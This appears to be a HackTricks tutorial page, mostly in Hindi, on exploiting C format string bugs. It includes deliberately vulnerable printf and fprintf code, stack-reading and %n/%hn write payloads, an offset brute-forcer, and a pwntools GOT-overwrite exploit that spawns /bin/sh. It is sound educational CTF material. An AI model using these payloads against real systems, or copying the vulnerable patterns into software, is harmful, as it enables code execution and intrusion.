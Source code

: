 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग कुछ स्ट्रिंग को **प्रिंट** करने के लिए किया जा सकता है। इस फ़ंक्शन की **पहली पैरामीटर** जो अपेक्षित है वह है **फॉर्मेटर्स के साथ कच्चा टेक्स्ट**। **अन्य पैरामीटर** जो अपेक्षित हैं वे हैं **कच्चे टेक्स्ट** से **फॉर्मेटर्स** को **बदलने** के लिए **मान**।

अन्य कमजोर फ़ंक्शन हैं **`sprintf()`** और **`fprintf()`**।

कमजोरी तब प्रकट होती है जब **हमलावर टेक्स्ट को इस फ़ंक्शन के पहले तर्क के रूप में उपयोग किया जाता है**। हमलावर एक **विशेष इनपुट तैयार करने में सक्षम होगा जो** **printf फॉर्मेट** स्ट्रिंग क्षमताओं का दुरुपयोग करके किसी भी पते (पढ़ने योग्य/लिखने योग्य) में **कोई भी डेटा पढ़ने और लिखने** के लिए। इस तरह से **मनमाना कोड निष्पादित** करने में सक्षम होना। 

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**उदाहरण:**

* कमजोर उदाहरण:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* सामान्य उपयोग:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* गायब तर्कों के साथ:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf कमजोर:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointers तक पहुँचना**

फॉर्मेट **`%<n>$x`**, जहाँ `n` एक संख्या है, printf को यह संकेत करने की अनुमति देता है कि n पैरामीटर (स्टैक से) का चयन करें। इसलिए, यदि आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं, तो आप कर सकते हैं:
```c
printf("%x %x %x %x")
```
और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप कर सकते हैं:
```c
printf("%4$x")
```
और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `printf` **पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** उसका इनपुट `printf` के कॉल होने पर स्टैक में होगा, जिसका अर्थ है कि वह स्टैक में विशिष्ट मेमोरी पते लिख सकता है।

{% hint style="danger" %}
एक हमलावर जो इस इनपुट को नियंत्रित करता है, वह **स्टैक में मनमाना पता जोड़ने में सक्षम होगा और `printf` को उन्हें एक्सेस करने के लिए मजबूर कर सकता है**। अगले अनुभाग में इस व्यवहार का उपयोग कैसे करें, यह समझाया जाएगा।
{% endhint %}

## **मनमाना पढ़ना**

फॉर्मेटर **`%n$s`** का उपयोग करना संभव है ताकि **`printf`** **n स्थिति** में स्थित **पते** को प्राप्त कर सके, उसके बाद और **इसे एक स्ट्रिंग के रूप में प्रिंट कर सके** (जब तक 0x00 नहीं मिलता)। तो यदि बाइनरी का बेस पता **`0x8048000`** है, और हम जानते हैं कि उपयोगकर्ता इनपुट स्टैक में चौथी स्थिति से शुरू होता है, तो बाइनरी की शुरुआत को प्रिंट करना संभव है:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
ध्यान दें कि आप इनपुट की शुरुआत में 0x8048000 का पता नहीं डाल सकते क्योंकि स्ट्रिंग उस पते के अंत में 0x00 पर कट जाएगी।
{% endhint %}

### ऑफसेट खोजें

अपने इनपुट के लिए ऑफसेट खोजने के लिए, आप 4 या 8 बाइट्स (`0x41414141`) भेज सकते हैं उसके बाद **`%1$x`** और **मान बढ़ाएं** जब तक कि `A's` प्राप्त न हो जाएं।

<details>

<summary>ब्रूट फोर्स printf ऑफसेट</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### कितनी उपयोगी

मनमाने पढ़ने उपयोगी हो सकते हैं:

* **मेमोरी** से **बाइनरी** को **डंप** करना
* **संवेदनशील** **जानकारी** संग्रहीत करने वाले मेमोरी के **विशिष्ट भागों** तक **पहुँच** प्राप्त करना (जैसे कि कैनरी, एन्क्रिप्शन कुंजी या कस्टम पासवर्ड जैसे इस [**CTF चुनौती**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) में)

## **मनमाना लिखना**

फॉर्मेटर **`%<num>$n`** **लिखता** है **लिखे गए बाइट्स की संख्या** को **संकेतित पते** में \<num> पैरामीटर में स्टैक में। यदि एक हमलावर printf के साथ जितने चाहें उतने अक्षर लिख सकता है, तो वह **`%<num>$n`** को एक मनमाना संख्या को एक मनमाने पते पर लिखने में सक्षम होगा।

भाग्यवश, संख्या 9999 लिखने के लिए, इनपुट में 9999 "A"s जोड़ना आवश्यक नहीं है, ऐसा करने के लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करके संख्या **`<num-write>`** को **`num` स्थिति द्वारा इंगित पते** में लिखा जा सकता है।
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
हालांकि, ध्यान दें कि आमतौर पर एक पता जैसे `0x08049724` (जो एक HUGE संख्या है जिसे एक बार में लिखना है) लिखने के लिए, **इसका उपयोग `$hn`** किया जाता है बजाय `$n` के। यह **केवल 2 Bytes** लिखने की अनुमति देता है। इसलिए, यह ऑपरेशन दो बार किया जाता है, एक बार पते के उच्चतम 2B के लिए और दूसरी बार निम्नतम के लिए।

इसलिए, यह भेद्यता **किसी भी पते में कुछ भी लिखने की अनुमति देती है (मनमाना लेखन)।**

इस उदाहरण में, लक्ष्य यह होगा कि **एक फ़ंक्शन** के **पते** को **ओवरराइट** किया जाए जो बाद में **GOT** तालिका में कॉल किया जाएगा। हालांकि, यह अन्य मनमाने लेखन को exec तकनीकों का दुरुपयोग कर सकता है:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

हम एक **फ़ंक्शन** को **ओवरराइट** करने जा रहे हैं जो **उपयोगकर्ता** से अपने **आर्गुमेंट्स** को **प्राप्त** करता है और इसे **`system`** **फ़ंक्शन** की ओर **संकेत** करता है।\
जैसा कि उल्लेख किया गया है, पते को लिखने के लिए आमतौर पर 2 चरणों की आवश्यकता होती है: आप **पहले 2Bytes** का पता लिखते हैं और फिर अन्य 2। ऐसा करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** को पते के 2 उच्चतम बाइट्स के लिए कहा जाता है
* **LOB** को पते के 2 निम्नतम बाइट्स के लिए कहा जाता है

फिर, यह देखते हुए कि फ़ॉर्मेट स्ट्रिंग कैसे काम करता है, आपको **पहले सबसे छोटे** को \[HOB, LOB] लिखने की आवश्यकता है और फिर दूसरे को।

यदि HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की कमजोरियों के लिए एक **टेम्पलेट** तैयार करने के लिए पा सकते हैं:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

या [**यहां**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) से यह बुनियादी उदाहरण:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

यह संभव है कि एक फॉर्मेट स्ट्रिंग कमजोरियों के लिखने के कार्यों का दुरुपयोग करके **स्टैक के पते में लिखें** और **बफर ओवरफ्लो** प्रकार की कमजोरी का शोषण करें।

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 बिट, कोई रिलरो, कोई कैनरी, nx, कोई पाई, स्टैक से फ्लैग लीक करने के लिए फॉर्मेट स्ट्रिंग का बुनियादी उपयोग (कार्य निष्पादन प्रवाह को बदलने की आवश्यकता नहीं)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, `fflush` के पते को जीतने के कार्य के साथ ओवरराइट करने के लिए फॉर्मेट स्ट्रिंग (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 बिट, रिलरो, कोई कैनरी, nx, कोई पाई, `.fini_array` में मुख्य के अंदर एक पते को लिखने के लिए फॉर्मेट स्ट्रिंग (ताकि प्रवाह एक बार और लूप हो) और `system` के पते को GOT तालिका में लिखें जो `strlen` की ओर इशारा करता है। जब प्रवाह मुख्य में वापस जाता है, `strlen` उपयोगकर्ता इनपुट के साथ निष्पादित होता है और `system` की ओर इशारा करता है, यह पास किए गए आदेशों को निष्पादित करेगा।

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अजेय को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_)।

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
